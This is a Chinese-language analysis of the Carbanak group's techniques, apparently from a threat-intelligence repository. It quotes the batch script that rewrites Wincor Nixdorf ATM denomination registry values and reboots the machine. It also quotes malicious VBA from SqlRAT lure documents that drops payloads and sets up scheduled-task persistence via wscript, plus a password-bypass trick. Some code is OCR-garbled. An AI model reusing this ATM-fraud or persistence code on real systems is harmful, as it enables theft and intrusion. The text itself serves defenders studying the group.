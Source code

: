 # Carbanak

## 特征

1. 该组织在拥有ATM机的权限时会下载恶意脚本1.bat，下载完毕后会立即执行该脚本更改ATM机的注册表中的纸币面值，比如攻击者收到10张面额100卢布的钞票，但是实际上是5000面额的钞票.

```bash
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_1 /t REG_SZ
/d “5000” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_2 /t REG_SZ
/d “1000” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_3 /t REG_SZ
/d “500” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_4 /t REG_SZ
/d “100” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_1 /t REG_SZ
/d “100” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_4 /t REG_SZ
/d “5000” /f
shutdown -r -t 0 –f
```

该脚本会修改注册表HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER的VALUE_1的值为100，并且修改VALUE_4的值为5000，然后重启计算机，待重启后，吐出1号的纸币的面额将会更改为5000而不是100。

2. 使用SqlRAT工具创建恶意文档时会包含图像诱使受害者双击图像以便启动VBA，其代码进行了加密，可以通过16进制编辑器打开并搜索密码位置将DPb标识替换为DPx标识即可绕过.在该VBA代码中会声明三个文件的名称用来写入保存稍后的Payload.

```vba
Private Sub StartUnlock()
      Dim ldoc As Document, shds As Shapes, shd As Shape
      Dim pfs As Paragraphs, pf As Paragraph
      Set ldoc = Application. ActiveDocument
      Set shds = ldoc.Shapes
      Set pfs = ldoc.Paragraphs
      fn1 = "init.dot"
      fn2 = "mspromo.dot"
      fn3 = "second.dot"
      fl = 0
      For Each pf In pfs
            rg = pf.Range .Text
            If   (Instr(1, rg, "[PROTECTED CONTENTS]")> 0) Then
                  fl = 1
            End If
      Next
      ltm = Timer
      While (Timer < (ltm + 1))
             DoEvents
      Wend
      lf (fl = 1) Then
          Addstr "Preparing to starting unlocking. . . ...... . OK"
      Else
          Addstr "Preparing to starting unlocking. . . ...... . Err"
          ErrUnlock
          Exit Sub
      End lf
```

然后声明三个变量为创建的三个空文件写入内容.

```VBA
sc1 = ""
sc2= ""
sc3 = ""
ltm = Timer
Errl = 0
For Each shd In shds
      If (shd.Name = "Sh000001") Then
          sc1 = shd.TextFrame .TextRange .Text
          Errl = Errl +1
      End If
      If (shd. Name = "Sh000002") Then
          sc2 = shd.TextFrame.TextRange.Text
          Errl = Errl +1
      End If
      If (shd. Name = "Sh000003") Then
          sc3 = shd.TextFrame .TextRange.Text
          Errl = Errl + 1
      End If
```

写入的文件会存储到%APPDATA%\Microsoft\Templates目录下，然后会创建计划任务来保持其持久性.

```VBA
Private Sub b14(lparam, rparam, Descr)
Set service =CreateObject ("Schedule.Service")
Call service.Connect
Dim rootFolder, lFld
//定义文件夹对象
Set rootFolder = service.GetFolder("\")
//获取已注册任务文件夹
Set nFolder = rootFolder
Dim taskDefinition
//定义任务所有的脚本对象
Set taskDefinition = service.NewTask(0)
Dim regInfo
//定义任务注册信息
Set regInfo = taskDefinition.RegistrationInfo
regInfo. Description = Descr
regInfo.Author = "system"
Dim settings
Set settings = taskDefinition.settings
settings.Enabled = True
settings.StartWhenAvailable = True
settings.Hidden = False
Dim triggers
//定义触发器
Set triggers = taskDefinition.triggers
Dim trigger
Set trigger = triggers.Create(2)
Dim startTime, endTime
//定义激活触发器的时间
Dim time
time = #1/2/2018 9:00:00 AM#
startTime = XmlTime (time)
time = #1/2/2026 9:10:00 AM#
endTime = XmlTime ( time)

trigger.StartBoundary = startTime
trigger.EndBoundary = endTime
trigger. DaysInterval = 1  //每天都运行该计划任务
trigger.ID = "DailyTriggerId"
trigger.Enabled = True
If (lparam = "init.dot") Then
trigger.RandomDelay = "PT2M"
Else
trigger.RandomDelay = "PT3M"
//设置任务重复次数
End lf
```

3. 通过Windows工具wscript.exe调用JavaScript启动恶意软件.

```vba
Dim Action
Set Action = taskDefinition.Actions.Create(0)
Action.Path = "wscript.exe"
Action.Arguments = "/b /e:jscript """ & rparam & "\" & lparam & """"
'Action . Type = 0
Call rootFolder.RegisterTaskDefinition(Descr, taskDefinition, 6, , , 3)
```

